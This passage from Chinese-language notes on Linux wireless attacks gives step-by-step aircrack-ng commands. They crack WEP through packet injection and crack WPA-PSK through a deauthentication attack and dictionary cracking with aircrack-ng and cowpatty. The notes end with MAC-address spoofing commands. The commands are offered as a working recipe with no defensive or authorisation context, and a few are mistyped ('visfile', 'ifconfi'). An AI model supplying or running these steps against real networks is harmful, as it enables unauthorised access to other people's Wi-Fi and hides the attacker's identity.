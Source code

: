 

    ifconfig eth0 up
    
    对于已经存在DHCP的网络，可以用如下命令使得网卡能够自动获取地址
    dhclient eth0
    
##### 破解WEP加密

1. 载入无线网卡

    ifconfig

    ifconfig wlan0 up
    
2. 激活无线网卡至monitor，即监听器模式

    airmon-ng start wlan0
    
3. 探测无线网络，抓取无线数据包

    airodump-ng mon0
    
    airodump-ng --ivs -w ivsfile -c 6 wlan0
    
4. 对目标AP使用AirRequest注入攻击

    aireplay-ng -3 -b AP'sMAC -h Client'sMAC mon0
    
5. 打开aircrack-ng，开始破解WEP(other shell)

    aircrack-ng visfile*.ivs


##### 破解WPA-PSK加密

1. 升级Aircrack-ng(Onece)

    airodump-ng-oui-update
    
2. 载入无线网卡

    ifconfig wlan0 up
    
3. 激活无线网卡至monitor，即监听模式

    airmon-ng start wlan0
    
4. 探测无线网络，抓取无线数据包

    airodump-ng mon0        

    airodump-ng -c 6 -w capfile mon0
    
5. 进行Deauth攻击加速破解过程

    aireplay-ng -0 1 -a AP'sMAC -c Client'sMAC wlan0
    
6. 开始破解WPA-PSK

    aircrack-ng -w dic capfile*.cap
    
    使用Cowpatty破解WPA-PSK加密
    
    cowpatty -f dic -r capfile*.cap -s SSID
    
tips
    
    root@raspberrypi:/home/pi# airodump-ng mon0
    nl80211 not found.
    Interface mon0: 
    ioctl(SIOCGIFINDEX) failed: No such device

    modprobe cfg80211

##### linux下修改mac地址

    ifconfi eth1 hw ether <MAC>
    
    macchanger -m <MAC> wlan0
    
    macchanger --mac=<MAC> wlan